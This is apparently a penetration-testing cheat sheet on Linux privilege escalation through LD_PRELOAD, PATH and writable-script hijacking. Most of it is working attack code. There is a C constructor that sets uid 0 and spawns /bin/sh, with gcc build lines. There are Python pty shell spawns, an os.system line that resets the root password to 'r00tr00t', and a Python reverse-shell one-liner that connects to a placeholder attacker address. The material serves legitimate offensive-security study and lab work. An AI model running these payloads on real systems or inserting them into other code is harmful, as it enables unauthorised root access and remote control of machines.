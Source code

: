 title: High Jacks

# C
Using the below shell code we can create a binary that will pop a shell as the user running it. This is useful if we can abuse programs or `sudo` misconfigurations 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

* To build
```
gcc -o exploit shell.c
```

If `gcc` throws an error `/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/Scrt1.o: in function _start: (.text+0x24): undefined reference to main'` then we can use the `-nostartfiles` flag

```
gcc -o exploit shell.c -nostartfiles
```

* To build as shared library 
```
gcc -shared -o exploit.so -fPIC  shell.c
```

Once built we can abuse `LD_PRELOAD` and `PATH`

# Python
Again we can use abuse `LD_PRELOAD` and `PATH` to escalate our privileges via python. 


**Interactive**

If we have a application we can abuse in an interactive way then we use `pty` to drop into a shell.

* write access to script
```
import pty;pty.spawn("/bin/bash")
```

* abuse library paths
```python
"""
"""
import pty
pty.spawn("/bin/bash")
exit()
```

**Non Interactive**
If the script is running under `cron`, `systemd` timers or other means then we will need to get creative.

We could use `os.system` to run a system command, for example if the script run's as root.

```python
import os
os.system("echo -n 'r00tr00t\nr00tr00t' | passwd")
```

Or we could use to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```